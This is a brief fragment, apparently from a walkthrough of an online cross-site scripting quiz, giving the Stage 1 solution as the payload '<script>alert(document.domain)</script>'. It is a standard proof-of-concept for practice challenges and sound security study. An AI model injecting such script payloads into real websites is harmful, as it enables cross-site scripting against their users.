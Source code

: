 ### Stage #1 - [Click](https://xss-quiz.int21h.jp/?sid=03ec87e7a1b4caf7527bc8337b5cf7c658ad12a1)

**Payload:** `<script>alert(document.domain)</script>`
